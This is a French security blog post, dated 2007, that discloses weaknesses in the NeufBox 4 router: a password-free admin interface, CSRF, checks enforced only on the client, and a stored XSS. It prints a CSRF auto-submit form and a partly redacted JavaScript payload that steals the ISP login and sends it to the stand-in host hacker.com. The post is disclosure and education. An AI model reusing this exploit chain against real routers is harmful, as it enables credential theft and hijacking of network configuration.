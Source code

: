 ```yaml
---
title: "La sécurité de la NeufBox 4"
tags: [vulnérabilité]
---
```


**NB: Cet article date de septembre 2007. La sécurité de la NeufBox s'est fortement amélioré depuis et l'accès à l'interface nécessite un mot de passe.**  

![NeufBox 4](/assets/img/neufbox4.jpg)

Je me suis intéressé à la sécurité de la NeufBox 4 ces derniers temps, je vous fais part de mes découvertes.  

## Welcome  

Une fois le modem/routeur branché et configuré (saisie des identifiants de connexion), différents voyants s'allument en fonction des services auxquels vous avez souscrit et des périphériques que vous avez branché. Mais force est de constater que par défaut le voyant WiFi s'allume.  

Le WiFi est actif et un hotspot accueille gentiment les *utilisateurs de la communauté Neuf et FON*. Il y a fort à parier que cet accès intéressera aussi certains *"pirates de l'air"*.  

Pour désactiver tout ça, il faut se rendre sur l'interface d'administration (`192.168.1.1`), dans la section *Wifi* puis *Hotspot* et *Wifi* (si vos PCs ne sont pas reliés par WiFi).  
Si vous voulez voir à quoi ressemble l'interface d'administration de la NeufBox 4, vous pouvez visiter le site <http://antoniop.free.fr/nb4/> qui a recréé l'interface.  

## Pas de mot de passe

Ce qui surprend le plus en accédant à l'interface web de la NeufBox, c'est l'absence d'une demande d'identifiants. Les modems ont généralement un compte par défaut du type admin/admin ou admin/password. Des mots de passe par défaut que l'on devine facilement, mais avec la possibilité d'en changer.  

Cette absence de protection est très gênante, dans un environnement multi-utilisateurs chacun pouvant jouer avec les règles NAT pour y faire passer son MSN et faire tourner son client P2P au nez et à la barbe de l'administrateur, même si on voit difficilement une entreprise utiliser ce type d'équipement (mais on ne sait jamais...)  

Est-il possible d'activer une protection par mot de passe ? Une [page cachée](http://antoniop.free.fr/nb4/0_2.htm) dans l'interface laisse supposer que oui. En fait, c'est possible [techniquement parlant. Il faut que les équipes de Neuf le mettent en place, mais ils peuvent le faire](http://www.n9ws.com/forum/viewtopic.php?t=43168). (je trouve ça fort, on dirait du [Pierre Dac](http://www.youtube.com/watch?v=B71_p-Lvn8s) ou du [Laspales/Chevallier](http://www.dailymotion.com/relevance/search/laspales/video/x2huio_chevallier-et-laspales-le-train-pou_fun)... c'est vous qui voyez !)  

## Cross-Site Request Forgery

L'absence de mot de passe à saisir pour accéder à la partie administration fait de la NeufBox 4, une cible de choix pour les attaques par [Cross-site request forgery](http://devloop.users.sourceforge.net/index.php?article17/les-attaques-par-cross-site-request-forgery).  

À l'aide d'une page web malicieuse, il est possible de vous faire changer la configuration de votre modem sans que vous ne vous en rendiez compte.  

Il est alors possible de réactiver un hotspot désactivé, changer la clé et le type de chiffrement WiFi ou encore ajouter des entrées NAT pour accéder à des services potentiellement vulnérables sur votre machine (le DHCP activé par défaut donne toujours les mêmes adresses).  

## Des protections Javascript seulement

On peut entrer à peu près tout ce qu'on le veut dans l'interface web de la NB4. Les seules protections se basent sur le HTML et le Javascript (donc côté client).  

Par exemple pour rajouter des règles NAT, il faut saisir l'adresse IP répartie en 4 cases de texte (voir [ici](http://antoniop.free.fr/nb4/2_5.htm)). Les trois premières cases sont protégées en écriture par HTML (attribut `readonly="readonly"`) mais en modifiant la requête HTTP (par exemple à l'aide de l'extension Firefox [TamperData](http://tamperdata.mozdev.org/)) on peut y mettre n'importe quelle adresse IP.  

Heureusement dans le cas du NAT ça finit par bloquer quelque part (sans doute lors du passage en règle iptables) sans quoi il aurait été possible de transformer les NeufBox en proxies.  

## XSS et lecture de données

La NB4 est victime de quelques failles XSS. La plus simple à exploiter est sans doute celle qui touche [le service FTP](http://antoniop.free.fr/nb4/5_1.htm), plus précisément l'ajout d'un compte utilisateur. La encore les seules protections sont le HTML (champs de taille limités) et le Javascript (vérification des caractères utilisés).  

L'injection de Javascript dans le champ *"Nom d'utilisateur"* ou *"Mot de passe"* résulte en un XSS permanent.  

Avec le CSRF (Cross-Site Request Forgery), on ne peut qu'envoyer des données vers la NeufBox mais on ne peut pas en lire. Avec [AJAX](http://fr.wikipedia.org/wiki/Asynchronous_JavaScript_and_XML) il est possible d'envoyer des requêtes et de lire le résultat, mais les restrictions d'AJAX empêchent la communication d'un domaine à un autre.  

La faille XSS permet de bypasser cette protection puisque le Javascript est injecté dans la page et exécuté comme s'il provenait de la NeufBox elle-même.  

Je me suis attardé sur cette faille et je suis parvenu à créer un code qui récupère les identifiants de connexion de la NeufBox (ceux-ci sont enregistrés et restent présent dans le code [de la page WAN](http://antoniop.free.fr/nb4/2_1.htm)) pour les soumettre ensuite vers un site extérieur.  

Je ne vous donne pas l'intégralité du code pour des raisons évidentes, mais n'importe quel développeur AJAX est en mesure de le faire (en une après-midi c'était torché, sachant que je n'avais jamais vraiment fait de l'AJAX auparavant, juste quelques codes de test).  

On a un code qui se charge du CSRF, c'est seulement un formulaire qui s'*"auto-submit"* :  

```html
<form method="post" action="http://192.168.1.1/5_1" id="inject">
<input type="hidden" name="ftpd_user" value="<script src='http://hacker.com/payload.js'></script>"/>
<input type="hidden" name="ftpd_password" value="hacked"/>
<input type="hidden" name="action" value="add" />
<input type="hidden" name="row" value="1" />
</form>
<script language="Javascript">
document.getElementById("inject").submit();
</script>
```

Le script injecté (payload.js) effectue les opérations suivantes :  

* Envoie une requête pour accéder à la page WAN
* Extrait les informations de connexion
* Charge dynamiquement dans la structure DOM un script pour l'envoi des identifiants
* Supprime l'entrée ajoutée dans la page du service FTP où se trouve le code Javascript

```js
var req = false;
var obj=null;
if(window.XMLHttpRequest)
{
  req=new XMLHttpRequest();
}
else if(window.ActiveXObject)
{
  req=new ActiveXObject("Microsoft.XMLHTTP");
}
req.open("GET","/2_1");
req.onreadystatechange=function()
{
  if(req.readyState==4 && req.status==200)
  {
    // code retire : extraction des données d'indentification
    var script = document.createElement('script');
    script.src = "http://hacker.com/insert.php?login="+escape(login)+"&password="+escape(password);
    script.type = 'text/javascript';
    document.body.appendChild(script);

    if(window.XMLHttpRequest)
    {
      req=new XMLHttpRequest();
    }
    else if(window.ActiveXObject)
    {
      req=new ActiveXObject("Microsoft.XMLHTTP");
    }
    // code retire : suppression des traces de l'attaque
  }
}
req.send(null);
```

J'ai testé le script en local et il a fonctionné avec succès sous Internet Explorer 7, Opera 9.50 (dernière pré-release de Kestrel en date) et Firefox 2.0.0.5.  

Par contre, ne me demandez pas à quoi peut bien servir de récupérer les infos de connexion... puisqu'il faut un abonnement (donc il faut forcément payer) pour les utiliser. Mais l'objectif était seulement de montrer les possibilités données par le mélange CSRF et XSS.  

Tout ça aurait pu être évité si un mot de passe était demandé par l'interface. On peut bien-sûr envoyer des informations d'authentification par AJAX (paramètres supplémentaires de `open()`) et dans un formulaire HTML (URL de la forme,<http://login:password@192.168.1.1/)> mais les navigateurs donnent un avertissement (cette forme d'URL a été massivement utilisée pour les attaques de phishing).  

Le mieux est d'avoir la possibilité de changer le mot de passe de l'interface, mais à l'heure actuelle rien n'est possible.  

Notez toutefois que l'utilisation de l'[extension NoScript](http://noscript.net/?ver=1.1.7.2&prev=#xss) sous Firefox permet de bloquer le CSRF.  

J'ai aussi testé l'injection de commandes Unix dans certains champs web, mais je n'ai rien trouvé de probant (je n'ai pas trop poussé non plus).  

Références :  

[W3C : XMLHttpRequest](http://www.xul.fr/XMLHttpRequest.html)  

[Using POST method in XMLHTTPRequest](http://www.openjs.com/articles/ajax_xmlhttp_using_post.php)  

[HTTP Authentication with HTML Forms](http://www.peej.co.uk/articles/http-auth-with-html-forms.html)  

[Cross-Domain Ajax Insecurity](http://shiflett.org/blog/2006/aug/cross-domain-ajax-insecurity)  

[MySpace Worm explanation](http://namb.la/popular/tech.html)

*Published January 10 2011 at 09:00*
